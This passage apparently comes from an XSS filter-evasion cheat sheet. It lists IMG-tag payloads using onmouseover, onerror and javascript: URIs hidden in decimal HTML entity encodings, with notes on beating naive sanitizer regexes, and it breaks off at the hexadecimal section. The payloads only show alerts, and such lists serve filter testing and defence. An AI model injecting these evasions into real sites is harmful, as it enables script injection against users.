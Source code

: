 ## `Default SRC Tag` by Leaving it Empty

```js
<IMG SRC= onmouseover="alert('xxs')">
```

## Default SRC Tag by Leaving it out Entirely
```js
<IMG onmouseover="alert('xxs')">
```

## On Error Alert

```js
<IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>
```

## IMG onerror and JavaScript Alert Encode

```js
<img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">
```
## Decimal HTML Character References
All of the XSS examples that use a javascript: directive inside of an <IMG tag will not work in Firefox or Netscape 8.1+ in the Gecko rendering engine mode).

```js
<IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;>
```

## Decimal HTML Character References Without Trailing Semicolons
This is often effective in XSS that attempts to look for `“&#XX;”`, since most people don’t know about padding - up to 7 numeric characters total.
- This is also useful against people who decode against strings like `$tmp_string =~ s/.*\&#(\d+);.*/$1/;` which incorrectly assumes a semicolon is required to terminate a html encoded string:

```js
<IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041>
```

## Hexadecimal HTML Character References Without Trailing Semicolons
This is also a viable XSS attack against the above string `$tmp_string=~ s/.*\&#(\d+);.*/$1/;` which assumes that there is a numeric character following the pound symbol - which is not true with hex HTML characters).
